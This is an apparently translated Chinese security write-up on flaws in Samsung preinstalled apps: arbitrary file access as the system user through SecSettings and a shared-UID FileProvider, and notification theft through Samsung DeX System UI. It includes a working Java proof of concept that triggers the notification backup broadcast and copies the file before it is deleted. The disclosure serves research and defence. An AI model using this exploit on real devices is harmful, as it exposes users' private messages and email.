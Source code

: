 SecSettings 中的漏洞
----------------


SecSettings 是三星预装的设置应用程序。


从 UID 1000 ( `system`)读取和写入任意文件的漏洞由两个组件组成：


* 访问任意\*内容提供者
* 在`com.sec.imsservice`应用程序中利用不安全的 FileProvider


[![黑客可以利用三星预装的应用程序来监视用户](https://img.vjob.top/imgs/vjob_4-3.png)](https://www.ddosi.org/wp-content/uploads/2021/06/4-3.png)
这个链是唯一可能的，因为两个应用程序都使用在它们的`AndroidManifest.xml`: 中指定的相同共享 UID `android:sharedUserId="android.uid.system"`。事实上，这个设置意味着两个不同的应用程序可以完全共享所有资源，并且可以完全访问彼此的组件。SecSettings 中的漏洞是 Google 的。它已报告给 Android VDP。奖金为2000美元。我们将在第 2 部分文章中披露此问题的详细信息。


三星 DeX 系统 UI 中的漏洞
-----------------


此漏洞允许攻击者**从用户通知中窃取数据**，这些数据通常包括 Telegram、Google Docs 文件夹、三星电子邮件和 Gmail 收件箱的聊天描述，以及来自其他应用程序通知的信息。


攻击者还可以激活该功能在 SD 卡上的全局可读目录中创建备份：


[![黑客可以利用三星预装的应用程序来监视用户](https://img.vjob.top/imgs/vjob_5-4.png)](https://www.ddosi.org/wp-content/uploads/2021/06/5-4.png)
由于文件在创建备份后立即被删除，因此我们添加了创建备份副本的功能以防止这种情况发生。


概念证明：



```
final File root = Environment.getExternalStorageDirectory();
final File policyFile = new File(root, "notification_policy.xml");
final File backupCopy = new File(root, "backup");

Intent i = new Intent("com.samsung.android.intent.action.REQUEST_BACKUP_NOTIFICATION");
i.setClassName("com.samsung.desktopsystemui", "com.samsung.desktopsystemui.NotificationBackupRestoreManager$NotificationBnRReceiver");
i.putExtra("SAVE_PATH", root.getAbsolutePath());
i.putExtra("SESSION_KEY", "not_empty");
sendBroadcast(i);

new Thread(() -> {
   while (true) {
       if(policyFile.exists()) {
           try {
               InputStream i = new FileInputStream(policyFile);
               OutputStream o = new FileOutputStream(backupCopy);
               IOUtils.copy(i, o);
               i.close();
               o.close();
           } catch (Throwable th) {
               throw new RuntimeException(th);
           }
       }
   }
}).start();
```
